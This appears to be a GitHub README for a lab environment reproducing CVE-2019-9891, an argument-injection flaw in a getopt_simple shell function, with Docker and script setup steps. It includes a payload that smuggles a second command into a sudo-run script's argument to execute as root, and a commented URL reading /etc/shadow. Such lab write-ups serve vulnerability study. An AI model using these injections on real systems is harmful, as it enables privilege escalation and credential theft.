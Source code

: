# CVE-2019-9891

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9891>

## PoC / Exploit
* <https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-007/-code-execution-via-insecure-shell-function-getopt-simple>
 

## Environment used

* Ubuntu 18.04.4 LTS

## Reproduction 

* Server
    - Docker version
        ```shell script 
        docker run --rm -p8022:22 -it simaofsilva/cve-2019-9891
        ```
      
    - Script version
        ```shell script
        sudo bash installation.sh 
        ```    
* Client
    ```shell script
    bash login.sh
    ```
  After login run `sudo /usr/local/sbin/cleanup.sh '--redteam=foo;id'` and you'll see the result of *id* command as root.  



[comment]: <> (https://localhost:10000/file/show.cgi/etc/shadow)
